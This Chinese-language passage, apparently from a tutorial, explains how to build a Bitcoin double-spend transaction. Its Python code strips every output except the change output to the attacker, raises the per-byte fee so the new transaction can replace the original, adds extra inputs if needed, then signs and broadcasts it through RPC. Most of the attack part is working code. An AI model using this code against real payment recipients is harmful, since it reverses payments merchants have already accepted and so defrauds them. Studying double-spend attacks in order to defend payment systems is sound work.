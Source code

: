 # 创建重复消费的交易

可重复消费的交易与第一笔交易具有相同的价值，但是具有不同的接收方地址。通过将整个资金返还给攻击者来逆转资金转移。除了携带变化的事务输出之外的所有事务输出都从事务中移除。由于更改交易输出是发给攻击者的，所以整个资金值都被分配给这个输出交易。

使用与前面类似的过程来计算整个交易的费用。在计算交易费用时，使用较高的每字节交易费用`feeperbyte2`:

```
tx.vout = tx.vout[0:1] 
change_txout = tx.vout[0] 
value_out = value_in 
change_txout.nValue = value_out 

while (value_in - value_out) / len(tx.serialize()) < feeperbyte2: 
    delta_fee = math.ceil((feeperbyte2 * len(tx.serialize())) - (value_in - value_out)) 

    if change_txout.nValue - delta_fee > dust_amount: 
        change_txout.nValue -= delta_fee 
        value_out -= delta_fee 

    if value_in - value_out < 0: 
        new_outpoint = unspent[-1]['outpoint'] 
        new_amount = unspent[-1]['amount'] 
        unspent = unspent[:-1] 

        print('Adding new input %s:%d with value %s BTC' % \
         (b2lx(new_outpoint.hash), new_outpoint.n,
         str_money_value(new_amount))) 

        new_txin = CMutableTxIn(new_outpoint, nSequence=tx2_nSequence) 
        tx.vin.append(new_txin) 

        value_in += new_amount 
        change_txout.nValue += new_amount 
        value_out += new_amount 

        r = rpc.signrawtransaction(tx) 
        assert(r['complete']) 
        tx.vin[-1].scriptSig = r['tx'].vin[-1].scriptSig 
```

一旦所有的交易输入被添加到交易中，交易被签名并被广播到网络:

```
r = rpc.signrawtransaction(tx) 
assert(r['complete']) 
tx = r['tx'] 

print('Double-spend raw transaction %s' % b2x(tx.serialize())) 
print('Double-spend raw transaction size: %.3f KB, fees: %s, %s BTC/KB' % \ 
            (len(tx.serialize()) / 1000,
              str_money_value(value_in-value_out),
              str_money_value((value_in-value_out) / len(tx.serialize()) * 1000))) 

txid = rpc.sendrawtransaction(tx) 
print('Sent double-spend txid: %s' % b2lx(txid)) 
```
